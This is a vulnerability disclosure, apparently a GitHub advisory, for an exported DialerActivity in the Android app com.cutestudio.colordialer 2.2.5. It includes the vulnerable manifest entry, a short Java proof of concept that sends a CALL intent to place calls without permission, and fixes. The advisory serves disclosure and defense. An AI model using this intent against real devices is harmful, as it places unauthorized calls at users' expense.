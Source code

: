  ** Note: This remains unpatched as of ver. 2.2.5 **
---

## Vulnerability Report

- **Application**: `com.cutestudio.colordialer` Version: 2.2.5
- **Component**: `com.cutestudio.dialer.activities.DialerActivity`
- **Vulnerability Type**: `CWE-284: Improper Access Control`
- **Associated Risks**: Unauthorized phone calls without user interaction or any permission


![image](https://github.com/actuator/com.cutestudio.colordialer/assets/78701239/6f122770-3f97-4bfe-8300-632c13480566)


### Description:

The `com.cutestudio.dialer.activities.DialerActivity` component of the `com.cutestudio.colordialer` application is improperly exported, allowing any third-party application to send intents to it. This oversight results in a potential risk where unauthorized phone calls can be initiated without user consent or interaction.

### Proof of Concept:

https://github.com/actuator/com.cutestudio.colordialer/blob/main/Dialer.gif

A third-party application can craft an intent targeting `com.cutestudio.dialer.activities.DialerActivity` using the `android.intent.action.CALL` action paired with a `tel:` URI, thereby placing a phone call. The exported nature of this activity lacks any verification to authenticate the origin of the intent, leading to possible misuse.

### Code Samples:

1. **Manifest declaration in 'com.cutestudio.colordialer':**

```xml
<activity 
    android:theme="@style/Theme.Transparent" 
    android:label="@string/dialer" 
    android:name="com.cutestudio.dialer.activities.DialerActivity" 
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.CALL"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <data android:scheme="tel"/>
    </intent-filter>
</activity>
```

2. **Proof of Concept using 'com.example.d3m0':**

```java
Intent dialerIntent = new Intent("android.intent.action.CALL");
dialerIntent.setComponent(new ComponentName("com.cutestudio.colordialer", "com.cutestudio.dialer.activities.DialerActivity"));
dialerIntent.setData(Uri.parse("tel:+1234567890"));
startActivity(dialerIntent);
```

![Demonstration]

### Recommendations:

1. Reevaluate the `android:exported` attribute of the `DialerActivity`. If there's no strict requirement for this activity to be exposed, it is advisable to set `android:exported="false"` in the AndroidManifest.xml.
2. Should there be a necessity to maintain the exported status, a stringent intent verification mechanism should be established to guarantee that only authenticated or trusted intents access the activity.

---

